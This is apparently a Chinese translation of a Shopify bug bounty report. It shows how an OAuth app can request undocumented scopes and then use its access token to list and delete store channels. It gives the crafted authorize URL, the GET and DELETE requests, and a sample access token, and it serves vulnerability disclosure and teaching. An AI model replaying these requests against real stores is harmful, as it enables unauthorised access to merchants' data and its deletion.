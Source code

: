 ## 前言

声明：文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。

## 主要逻辑

这是文档中所讲到的应用程序可以访问的范围(https://docs.shopify.com/api/authentication/oauth#scopes),但应用可以请求/获得更多范围的访问权，而其中有些范围本不应该是可访问的。


## 请求

URL GET/POST data: GET METHOD:

`https://victim.myshopify.com/admin/oauth/authorize?client_id=fc49e813f5aad9c8d8f6511703 1a9684&scope=read_apps,write_apps,write_content,read_content,write_customers,read_cust omers,read_disputes,write_fulfillments,read_fulfillments,write_gift_cards,read_gift_cards,writ e_orders,read_orders,read_products,write_products,read_script_tags,write_script_tags,write_ scripts,read_scripts,read_shipping,write_shipping,write_social_network_accounts,read_social_ network_accounts,read_themes,write_themes,read_channels,write_channels&redirect_uri=htt p://while42.myshopify.com/&state=123&shop=while42`


## 复现步骤


使用请求的access_token访问任何作用域。

1.在以下请求中使用你的应用程序的access_token (X-Shopify-Access-Token)

2.`GET /admin/channels.json` (获取所有的 channels IDs)

3.`DELETE /admin/channels/a_Channel_ID.json` (删除任何channel)

在`while42.myshopify.com `处测试:(用`X-Shopify-Access-Token: 77a01fc64f65fd16b0b38bc31694e4ce`)


![img_19.png](img_19.png)